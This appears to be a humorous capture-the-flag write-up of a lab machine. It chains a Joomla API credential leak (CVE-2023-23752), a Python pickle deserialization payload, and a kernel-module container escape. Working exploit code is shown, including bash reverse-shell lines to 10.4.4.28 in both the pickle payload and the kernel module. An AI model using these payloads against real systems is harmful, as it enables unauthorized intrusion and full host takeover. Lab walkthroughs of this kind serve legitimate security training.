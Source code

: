 ## Summary
Ahoy, matey! 🏴‍☠️  
In this epic cyber-voyage, we’ll exploit Joomla!’s gossiping API, sneak into a container using a stolen map (aka credentials), conjure dark magic with Python pickle, and finally unleash chaos by dropping a kernel module anchor straight into the host. And don’t worry—I sprinkled in humor to keep seasickness away.

---

## 1. Scouting the Shores: Initial Enumeration

The ship’s telescope (aka `nmap`) revealed our island’s secrets:

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.58.82
```

Behold! Two SSH docks (22 & 2222) and a bustling Joomla! bazaar on port 80.

### Joomla! Gossip Hour
Curiosity made us peek behind Joomla!’s curtains:

```bash
curl http://10.10.58.82/administrator/manifests/files/joomla.xml
```

Version 4.2.7. Known for being chatty with strangers.

### Sweet-Talking with CVE-2023-23752
Joomla! spilled its secrets when we asked nicely:

```bash
curl http://10.10.58.82/api/index.php/v1/config/application?public=true
```

Credentials? Oh yes-but shh 🤫 (they’re **[REDACTED]**).

### Boarding the First Ship (SSH)
Armed with redacted loot, we waltzed in:

```bash
ssh root@10.10.58.82 -p 2222
```

Welcome to container **f5eb774507f2**. You’re root, baby. Evil laughter recommended.

---

## 2. Cross-Deck Pivot: Insecure Deserialization

### Spotting the Flotilla
Containers everywhere! We sniffed around:

```bash
ip a
nmap -sn 192.168.100.0/24
nmap -p- 192.168.100.12
```

Treasure found on `192.168.100.12:5000` — the infamous **Secret Finance Panel**.

### Smuggling Goods with Port Forwarding
We tunneled it back to our deck:

```bash
ssh root@10.10.58.82 -p 2222 -L 5000:192.168.100.12:5000
```

### The Cookie Jar of Doom
Logged in with whatever nonsense, and Joomla!’s cousin handed us a **pickle-shaped cookie** (looked more like Frankenstein).  
But instead of eating it, we weaponized it.

### Brewing a Malicious Pickle
Our Python cauldron bubbled with dark magic:

```python
import pickle, os
class Malicious:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.4.4.28/443 0>&1'",))
print(pickle.dumps(Malicious()).hex())
```

This hex string became our golden ticket 🎟️.

### Listener and Payload Showtime
- Listener on our side:

```bash
nc -lvnp 443
```

- Smuggled the payload cookie back:

```bash
curl http://127.0.0.1:5000/ -H "Cookie: session_data=YOUR_MALICIOUS_HEX"
```

Shell appeared! Stabilized it with some bash gymnastics.  
The first treasure chest opened: **User Flag = [REDACTED]**.

---

## 3. Breaking Chains: Container Escape

### Discovering Superpowers
Turns out, our container had the ability to **load kernel modules**.  
Like giving Thor his hammer back. ⚡

```bash
capsh --print
```

Look! You wield `cap_sys_module` — time to load your “escape hatch.”

### Writing the Escape Hatch
We forged a kernel module (`shell.c`) that whispered to the host:  
“Give me root… or else.”

```bash
cd /tmp
cat > shell.c << 'EOF'
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>
MODULE_LICENSE("GPL");
static int shell(void) {
  char *argv[] = {
    "/bin/bash","-c",
    "bash -i >& /dev/tcp/10.4.4.28/443 0>&1", NULL };
  static char *env[] = {
    "HOME=/","TERM=linux","PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
  return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
}
module_init(shell);
module_exit(shell);
EOF
```

### Creating a Tab-Friendly Makefile
Because even pirates need tidy work:

```bash
printf 'obj-m += shell.o

all:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules

clean:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean
' > Makefile
```

### Compiling & Loading the Module
The blacksmiths (aka `make`) forged our tool:

```bash
make clean
make
ls -la shell.ko
insmod shell.ko
```

### Reaping Your Reward
And like a siren’s song, the host gave in. Another shell purred back:

```bash
nc -lvnp 443
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
cat /root/root.txt
```

Final treasure chest unlocked: **Root Flag = [REDACTED]**.

---

## 4. Final Reflections & High-Fives

- **Joomla! API**: Like that one relative who overshares at dinner.  
- **Pickle RCE**: Proof Python pickles are scarier than grandma’s fruitcake.  
- **Kernel Modules**: Definitely not toys. Treat them like nuclear launch codes.  

Congratulations, Captain! 🎉  
You’ve conquered the Voyage, survived the seas of CMS exploits, Docker currents, and kernel storms—all without a lifejacket. 🏆  

---
